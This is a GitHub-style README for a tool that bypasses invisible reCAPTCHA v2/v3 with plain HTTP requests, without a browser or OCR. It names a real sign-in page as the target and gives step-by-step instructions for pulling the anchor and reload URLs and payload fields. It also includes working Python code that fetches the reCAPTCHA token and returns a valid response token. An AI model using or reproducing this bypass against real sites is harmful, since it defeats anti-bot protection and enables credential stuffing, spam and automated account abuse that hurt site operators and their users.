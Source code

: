 # Bypass Invisible Recaptcha v2 / v3

Allows to bypass an invisible recaptcha just with **HTTP requests**, without **Selenium** or **OCR**.
## Important

1 - This bypass does not work on all invisible recaptchas, **you have to try it** to know if it works on your recaptcha;

2 - This bypass only works on **invisible recaptchas**.

3 - You must have **some knowledge** of HTTP requests to understand

## EXPLOIT

**TARGET** : https://bitly.com/a/sign_in
### STEP 1
Inspect network to find the **recaptcha anchor url**.

![](https://i.ibb.co/fFprvrH/anchor.png)

### STEP 2
Inspect network to find the **recaptcha reload url**.

![](https://i.ibb.co/1J3gxYY/reload.png)

### STEP 3
Let's now look at the **payload** of the reload request

1 - Find **CHR** [xx, xx, xx] **(2023 : no longer required, you can leave it blank in the script)**

![](https://i.ibb.co/sjmFYCc/chr.png)

2 - Find **VH** (The **number sequence** after the character *) **(2023 : no longer required, you can leave it blank in the script)**

![](https://i.ibb.co/HrchVCB/vh.png)

3 - Find **BG** (Not me :D, the other BG inside the payload **from the character** ! **to the character** *) **(2023 : no longer required, you can leave it blank in the script)**

Starts here

![](https://i.ibb.co/nDTFfsY/bg1.png)

Ends here

![](https://i.ibb.co/BwMRhPt/bg2.png)

### STEP 4
Run **bypass.py** with python3 and fill inputs.

![](https://i.ibb.co/MB3nDMN/inputs.png)

Recaptcha is **vulnerable** :D we can generate the **recaptcha response** with HTTP requests !

![](https://i.ibb.co/3WCj0XC/bypass.png)

### STEP 5
Go in the **bypassed.txt** file, take the **variables** and you can now create your script to generate the **recaptcha response**.



## Generate Recaptcha Response

```python
import requests

def generateresponse(anchorurl, reloadurl, payload):
    s = requests.Session()
    r1 = s.get(anchorurl).text
    token1 = r1.split('recaptcha-token" value="')[1].split('">')[0]
    payload = payload.replace("<token>", str(token1))
    r2 = s.post(reloadurl, data=payload, headers={"Content-Type": "application/x-www-form-urlencoded"})
    try:
        token2 = str(r2.text.split('"rresp","')[1].split('"')[0])
        return token2
    except:
        return ""
```

**2023 update : You can just send the token retrieved using the GET request to the anchor url and it will still work.**

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Credits
blank <3
